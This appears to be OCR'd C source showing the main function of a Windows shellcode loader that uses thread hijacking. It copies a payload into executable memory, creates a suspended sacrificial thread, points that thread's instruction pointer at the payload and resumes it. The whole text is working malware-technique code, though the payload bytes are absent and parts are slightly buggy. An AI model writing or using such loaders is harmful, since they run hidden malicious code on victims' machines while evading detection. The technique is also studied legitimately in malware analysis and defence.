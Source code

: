 ```c
int wmain(void) {
    // Start by Sacrificial Thread creating thread. Thread hijacking has to be performed on a Suspened Thread
    HANDLE hThread = NULL;
    LPVOID lpBuffer = NULL;

    lpBuffer = VirtualAlloc(0, sizeof(Payload), MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if (lpBuffer == NULL) {
        wprintf(L"Failed To Allocate Buffer %d\n", GetLastError());
    }

	memcpy(lpBuffer, Payload, sizeof(Payload));

    hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)&fakeFunction, NULL, CREATE_SUSPENDED, NULL);
    if (hThread == NULL) {
        wprintf(L"Failed to Create Thread %d\n", GetLastError());
        return -1;
    }

    CONTEXT lpThreadContext;
    if (!GetThreadContext(hThread, &lpThreadContext)) {
        wprintf(L"Failed Get Thread Context %d\n", GetLastError());
        return -1;       
    }

    lpThreadContext.Rip = lpBuffer;

	if (!SetThreadContext(hThread, &lpThreadContext)) {
        wprintf(L"Failed to Resume Thread %d\n", GetLastError());
        return -1;
	}

	ResumeThread(hThread);

	getchar();
	// Cleanup
	VirtualFree(lpBuffer, 0, MEM_RELEASE);
	CloseHandle(hThread);
    return 0;
}

```


